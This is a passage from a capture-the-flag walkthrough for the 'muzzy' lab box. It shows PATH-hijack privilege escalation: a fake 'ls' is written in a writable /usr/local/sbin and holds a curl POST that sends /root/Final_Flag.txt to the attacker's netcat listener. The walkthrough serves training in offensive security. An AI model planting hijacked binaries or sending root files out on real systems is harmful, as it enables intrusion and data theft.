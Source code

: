```r
nsctf@muzzy:~$ sudo -l
[sudo] password for nsctf: 
Sorry, user nsctf may not run sudo on muzzy.
nsctf@muzzy:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```
After this, I enumerated the ls command and found that the directory <b>/usr/local/sbin</b> was writable by the user nstcf.

```r
nsctf@muzzy:~$ which ls
/bin/ls
nsctf@muzzy:~$ ls -la /usr/local/sbin/
total 12
drwxr-xr-x  2 nsctf root  4096 May 28 22:27 .
drwxr-xr-x 10 root  root  4096 Feb 24 23:05 ..
-rw-rw-r--  1 nsctf nsctf   73 May 28 22:27 ls
nsctf@muzzy:~$
```
I used the curl command to send a POST request to the target machine to read the contents of /root/Final_Flag.txt

```r
nsctf@muzzy:~$ nano /usr/local/sbin/ls
```
<center>
<img src="/assets/img/uploads/muzzybox/post-request.png">
</center>

```r
curl -i -X POST "http://192.168.1.5:9000" --data "@/root/Final_Flag.txt"
```

Then I started a netcat listener on my host machine on port 9000 and got the Final Flag.

```r
root@kali:~# nc -lvnp 9000
listening on [any] 9000 ...
connect to [192.168.1.5] from (UNKNOWN) [192.168.1.3] 47832
POST / HTTP/1.1
Host: 192.168.1.5:9000
User-Agent: curl/7.58.0
Accept: */*
Content-Length: 35
Content-Type: application/x-www-form-urlencoded

N$CtF{8!NG000!!!__Y0U_D!D_!T_80!!!}
```
